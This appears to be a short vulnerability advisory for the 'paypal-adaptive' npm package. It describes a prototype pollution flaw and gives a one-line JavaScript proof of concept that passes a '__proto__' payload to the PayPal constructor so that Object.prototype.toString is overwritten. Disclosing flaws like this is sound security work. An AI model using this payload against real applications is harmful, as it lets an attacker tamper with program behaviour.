 # Overview

Affected versions of this package are vulnerable to Prototype Pollution. The `PayPal` function could be tricked into adding or modifying properties of `Object.prototype` using a `__proto__` payload.

## POC

```js
var PayPal = require('paypal-adaptive');
var p = new PayPal({"__proto__": {"toString": "JHU"}, "userId": "foo", "password": "bar", "signature": "abcd", "appId": "1234", "sandbox": "1234"}) console.log(({}).toString);
```
